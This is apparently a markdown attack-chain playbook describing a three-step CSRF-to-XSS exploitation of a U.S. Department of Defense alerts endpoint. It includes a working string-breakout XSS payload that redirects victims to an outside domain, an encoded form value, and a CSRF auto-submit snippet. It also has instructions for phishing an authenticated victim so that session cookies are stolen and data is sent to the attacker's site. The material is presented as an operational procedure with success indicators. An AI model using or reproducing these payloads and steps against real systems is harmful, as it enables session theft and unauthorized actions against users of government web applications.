

# CSRF Exploitation Leading to XSS in DoD Alerts Endpoint

Multi-stage attack chain demonstrating a complete CSRF to XSS workflow on the U.S. Department of Defense web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web application (U.S. DoD /alerts endpoint)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to target domain

### Initial Access Requirements

- Victim must be authenticated to the target application
- Attacker needs a way to deliver a malicious link (e.g., email, message)
- No prior access to target systems required

## Detailed Attack Procedures

### Step 1: Create Malicious JavaScript Payload for XSS
procedure: [[procedures/Create-Malicious-JavaScript-Payload-for-XSS]]

**Objective**: Develop an XSS payload that closes a string injection and executes arbitrary JavaScript to demonstrate compromise and redirect the victim.

**Instructions**: Construct the payload to exploit the unsanitized 'source[]' parameter, which appears to be in a SQL-like context. Use the following JavaScript code as the payload:

Using [[commands/xss-payload-injection]]:

```javascript
video");alert('Hacked by k0x');setTimeout(()=>location.href='https://k0x.xyz',5000);//
```

Encode this payload for URL submission in the next step.

**Expected Output**: Payload ready for injection, which will trigger an alert and redirect after 5 seconds.

**Success Indicators**:
- Payload syntax validated (e.g., no errors in a test environment)
- Alert message and redirect logic confirmed

### Step 2: Craft CSRF HTML Page with Burp Suite
procedure: [[procedures/Craft-CSRF-HTML-Page-with-Burp-Suite]]

**Objective**: Build a malicious HTML page that forges a POST request to the /alerts endpoint, embedding the XSS payload to exploit the CSRF vulnerability.

**Instructions**: Intercept a legitimate request to /alerts using Burp Suite, then modify it to create a hidden form. Include the CSRF token from the intercepted request, search parameters, and the encoded XSS payload in 'source[]'. Add auto-submit JavaScript.

Set up the form with the target URL https://www.target.gov/alerts and the encoded payload value="video&quot;&#41;&#59;&#13;&#10;alert&#40;&apos;Hacked&#32;by&#32;k0x&apos;&#41;&#59;&#13;&#10;setTimeout&#40;&#40;&#41;&#61;&gt;location&#46;href&#61;&apos;https&#58;&#47;&#47;k0x&#46;xyz&apos;&#44;5000&#41;&#59;&#47;&#47;".

Using [[commands/csrf-form-auto-submit]] for the auto-execution:

```javascript
history.pushState('','','/'); document.forms[0].submit();
```

Host this HTML on an attacker-controlled site.

**Expected Output**: Malicious HTML page that auto-submits the forged POST request upon load.

**Success Indicators**:
- Form submission tested in a browser (request sent without errors)
- Payload encoding verified to avoid breaking the form

### Step 3: Lure Victim and Execute CSRF+XSS Attack
procedure: [[procedures/Lure-Victim-and-Execute-CSRF-XSS-Attack]]

**Objective**: Deliver the malicious link to an authenticated victim, triggering the CSRF request that injects and executes the XSS payload.

**Instructions**: Send the link to the malicious HTML site via email, chat, or phishing. When the victim (logged into the DoD app) visits, the page auto-submits the POST to /alerts using their session cookies, injecting the XSS payload into 'source[]'.

Monitor for execution: The XSS will run in the victim's browser context, stealing cookies or performing actions like changing settings.

No specific command needed; rely on the prior steps' artifacts.

**Expected Output**: Victim's browser executes the alert, redirects, and potentially exfiltrates session data to attacker's site.

**Success Indicators**:
- Victim visits link and request is sent (observable via server logs)
- Alert pops up in victim's browser confirming XSS execution
- Any exfiltrated data received on attacker's domain

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to forge authenticated requests
2. Injected and executed XSS payload for session theft and unauthorized actions
3. Demonstrated high-impact compromise of a government web application

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T12:00:00Z*
